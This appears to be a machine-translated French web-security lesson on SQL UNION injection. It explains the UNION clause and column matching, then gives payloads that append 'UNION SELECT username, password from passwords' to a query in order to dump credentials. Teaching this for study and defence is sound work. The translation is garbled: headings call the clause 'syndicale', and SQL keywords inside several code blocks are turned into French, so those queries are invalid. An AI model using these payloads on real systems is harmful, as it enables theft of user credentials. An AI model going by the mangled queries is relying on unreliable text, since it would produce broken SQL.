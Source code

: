Clause syndicale
============

* * * * *

Jusqu'à présent, nous n'avons manipulé la requête d'origine que pour subvertir la logique de l'application Web et contourner l'authentification, à l'aide de l'opérateur `OR` et des commentaires. Cependant, un autre type d'injection SQL consiste à injecter des requêtes SQL entières exécutées avec la requête d'origine. Cette section le démontrera en utilisant la clause MySQL `Union` pour faire `SQL Union Injection`.

* * * * *

syndicat
-----

Avant de commencer à en savoir plus sur Union Injection, nous devons d'abord en savoir plus sur la clause SQL Union. La clause [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) est utilisée pour combiner les résultats de plusieurs instructions `SELECT` . Cela signifie que grâce à une injection `UNION` , nous serons en mesure de `SELECT` et de vider les données de tout le SGBD, à partir de plusieurs tables et bases de données. Essayons d'utiliser l'opérateur `UNION` dans un exemple de base de données. Voyons d'abord le contenu de la table `ports` :

```
mysql> SELECT * FROM ports ;

+----------+-----------+
| code | ville |
+----------+-----------+
| CN SHA | Shangai |
| SG SIN | Singapour |
| ZZ-21 | Shenzhen |
+----------+-----------+
3 rangées en série (0.00 sec)

```

Voyons ensuite le résultat des tables `ships` :

```
mysql> SELECT * FROM navires ;

+----------+-----------+
| Navire | ville |
+----------+-----------+
| Morisson | New-York |
+----------+-----------+
1 rangées dans l'ensemble (0,00 sec)

```

Essayons maintenant d'utiliser `UNION` pour combiner les deux résultats :

```
mysql> SELECT * FROM ports UNION SELECT * FROM navires ;

+----------+-----------+
| code | ville |
+----------+-----------+
| CN SHA | Shangai |
| SG SIN | Singapour |
| Morisson | New-York |
| ZZ-21 | Shenzhen |
+----------+-----------+
4 rangées en série (0.00 sec)

```

Comme nous pouvons le voir, `UNION` a combiné la sortie des deux instructions `SELECT` en une seule, de sorte que les entrées de la table `ports` et de la table `ships` ont été combinées en une seule sortie avec quatre lignes. Comme nous pouvons le voir, certaines lignes appartiennent à la table `ports` tandis que d'autres appartiennent à la table `ships` .

Remarque : Les types de données des colonnes sélectionnées sur toutes les positions doivent être les mêmes.

* * * * *

Colonnes paires
------------

Une instruction `UNION` ne peut fonctionner que sur des instructions `SELECT` avec un nombre égal de colonnes. Par exemple, si nous essayons `UNION` deux requêtes dont les résultats contiennent un nombre différent de colonnes, nous obtenons l'erreur suivante :

```
mysql> SELECT ville FROM ports UNION SELECT * FROM navires;

ERREUR 1222 (21000) : Les instructions SELECT utilisées ont un nombre différent de colonnes

```

La requête ci-dessus génère une erreur, car la première `SELECT` renvoie une colonne et la seconde `SELECT` en renvoie deux. Une fois que nous avons deux requêtes qui renvoient le même nombre de colonnes, nous pouvons utiliser l'opérateur `UNION` pour extraire des données d'autres tables et bases de données.

Par exemple, si la requête est :

Code : sql

```
SELECT * FROM produits WHERE product_id = 'user_input'

```

Nous pouvons injecter une requête `UNION` dans l'entrée, de sorte que les lignes d'une autre table soient renvoyées :

Code : sql

```
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '

```

La requête ci-dessus renvoie les entrées `username` et `password` de la table `passwords` , en supposant que la table `products` comporte deux colonnes.

* * * * *

Colonnes inégales
---------------

Nous découvrirons que la requête d'origine n'aura généralement pas le même nombre de colonnes que la requête SQL que nous voulons exécuter, nous devrons donc contourner cela. Par exemple, supposons que nous n'ayons qu'une seule colonne. Dans ce cas, nous voulons `SELECT`, nous pouvons mettre des données inutiles pour les colonnes requises restantes afin que le nombre total de colonnes avec lesquelles nous sommes `UNION`ing reste le même que la requête d'origine.

Par exemple, nous pouvons utiliser n'importe quelle chaîne comme données indésirables, et la requête renverra la chaîne comme sortie pour cette colonne. Si nous `UNION` avec la chaîne `"junk"`, la requête `SELECT` serait `SELECT "junk" from passwords`, qui renverra toujours `junk`. Nous pouvons aussi utiliser des nombres. Par exemple, la requête `SELECT 1 from passwords` renverra toujours `1` comme résultat.

Remarque : Lorsque vous remplissez d'autres colonnes avec des données indésirables, nous devons nous assurer que le type de données correspond au type de données des colonnes, sinon la requête renverra une erreur. Par souci de simplicité, nous utiliserons des nombres comme données indésirables, ce qui deviendra également utile pour suivre nos positions de charges utiles, comme nous le verrons plus tard.

Conseil : pour une injection SQL avancée, nous pouvons simplement utiliser 'NULL' pour remplir d'autres colonnes, car 'NULL' convient à tous les types de données.

La table `products` comporte deux colonnes dans l'exemple ci-dessus, nous devons donc `UNION` avec deux colonnes. Si nous ne voulions obtenir qu'une seule colonne 'par ex. `username`', nous devons faire `username, 2`, de sorte que nous ayons le même nombre de colonnes :

Code : sql

```
SELECT * parmi les produits où product_id = '1' UNION SELECT nom d'utilisateur, 2 parmi les mots de passe

```

Si nous avions plus de colonnes dans la table de la requête d'origine, nous devons ajouter plus de nombres pour créer les colonnes requises restantes. Par exemple, si l'orequête originale utilisée `SELECT` sur une table à quatre colonnes, notre injection `UNION` serait :

Code : sql

```
UNION SELECT nom d'utilisateur, 2, 3, 4 parmi les mots de passe-- '

```

Cette requête renverrait :

```
mysql> SELECT * des produits où product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| produit_1 | produit_2 | produit_3 | produit_4 |
+-----------+-----------+-----------+-----------+
| administrateur | 2 | 3 | 4 |
+-----------+-----------+-----------+-----------+

```

Comme nous pouvons le voir, notre sortie recherchée de la requête '`UNION SELECT username from passwords`' se trouve dans la première colonne de la deuxième ligne, tandis que les nombres remplissent les colonnes restantes.